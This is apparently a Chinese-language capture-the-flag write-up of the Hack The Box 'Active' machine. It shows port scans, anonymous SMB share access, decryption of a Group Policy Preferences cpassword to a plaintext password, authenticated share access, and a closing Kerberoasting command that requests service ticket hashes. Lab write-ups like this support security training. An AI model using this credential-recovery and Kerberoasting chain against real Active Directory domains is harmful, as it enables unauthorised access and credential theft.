 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责

# 服务探测

查看开启端口服务
```
┌──(root💀kali)-[~/htb/Active]
└─# nmap -p- 10.10.10.100 --open
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-29 04:33 EST
Nmap scan report for 10.10.10.100
Host is up (0.30s latency).
Not shown: 65508 closed ports, 4 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49169/tcp open  unknown
49171/tcp open  unknown
49180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 136.09 seconds

```

查看对应端口详细信息
```
┌──(root💀kali)-[~/htb/Active]
└─# nmap -sV -T4 -A -O -p 53,88,135,389,445,593,636,3268,3269,5722,9389,47001,49152,49153,49154,49155,49157,49158,49169,49171,49180 10.10.10.100
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-29 04:37 EST
Nmap scan report for 10.10.10.100
Host is up (0.29s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-12-29 09:37:56Z)
135/tcp   open  msrpc         Microsoft Windows RPC
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49171/tcp open  msrpc         Microsoft Windows RPC
49180/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Home Server 2011 (Windows Server 2008 R2) (96%), Microsoft Windows Server 2008 R2 SP1 (96%), Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1 or Windows Server 2008 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 7 Ultimate (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -2s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2021-12-29T09:39:06
|_  start_date: 2021-12-29T09:31:20

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   283.07 ms 10.10.14.1
2   284.19 ms 10.10.10.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.68 seconds

```

有活动目录还有DNS，那这台应该是DC服务器

先从samba开始，枚举共享目录
```
┌──(root💀kali)-[~/htb/Active]
└─# smbmap -u '' -H 10.10.10.100
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Replication                                             READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
        Users                                                   NO ACCESS


```

匿名账号只可以进入```Replication```
登录
```
──(root💀kali)-[~/htb/Active]
└─#  smbclient --no-pass //10.10.10.100/Replication                                                             1 ⨯
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Jul 21 06:37:44 2018
  ..                                  D        0  Sat Jul 21 06:37:44 2018
  active.htb                          D        0  Sat Jul 21 06:37:44 2018

```

下载所有文件到本地待分析
```
smb: \> recurse on
smb: \> prompt off
smb: \>  mget *

```

```active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml ```爆出一个登录账号凭据
```
┌──(root💀kali)-[~/…/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups]
└─# cat Groups.xml 
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>

```

用户名：```active.htb\SVC_TGS```
哈希：```edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ```


在谷歌搜索```Groups.xml decrypt```找到这个文件的解密方法:```gpp-decrypt```

```
┌──(root💀kali)-[~/htb/Active]
└─# gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"

GPPstillStandingStrong2k18

```

解出密码为：```GPPstillStandingStrong2k18```

使用下面命令登录Users文件夹

> smbclient -U 'active.htb/SVC_TGS%GPPstillStandingStrong2k18' //10.10.10.100/Users


找到user.txt
```
smb: \SVC_TGS\Desktop\> pwd
Current directory is \\10.10.10.100\Users\SVC_TGS\Desktop\
smb: \SVC_TGS\Desktop\> ls
  .                                   D        0  Sat Jul 21 11:14:42 2018
  ..                                  D        0  Sat Jul 21 11:14:42 2018
  user.txt                            A       34  Sat Jul 21 11:06:25 2018

```


smbmap -u "active.htb/SVC_TGS" -p "GPPstillStandingStrong2k18" -H 10.10.10.100



python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -outputfile hashes.kerberoast


smbclient -U 'active.htb/SVC_TGS%GPPstillStandingStrong2k18' //10.10.10.100/SYSVOL